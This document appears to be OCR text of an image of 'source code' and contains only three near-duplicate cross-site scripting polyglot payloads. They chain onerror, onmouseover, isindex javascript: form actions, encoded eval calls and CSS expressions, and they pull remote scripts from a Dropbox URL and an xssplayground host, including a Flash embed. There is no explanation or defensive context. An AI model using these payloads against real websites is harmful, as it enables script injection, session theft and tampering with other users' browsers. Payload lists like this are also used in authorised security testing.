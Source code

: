 '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>"><script>alert(document.domain)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>'"><img src="http://bryanhallsawakening.files.wordpress.com/2013/09/anonymousbigbrotherclone.jpg"/ onmousover=alert(1)><script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>

'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>"><script>alert(document.domain)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>'"><img src="http://xssplayground.net23.net/xssimagefile2.svg" style="width:expression(alert(1))"/onmousover=alert(1)><script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>



">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>"><script>alert(document.domain)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>'"><img src="http://xssplayground.net23.net/xssimagefile2.svg"/onmousover=alert(1)><embed/&Tab; src='https://xssplayground.net23.net/xss.swf'>
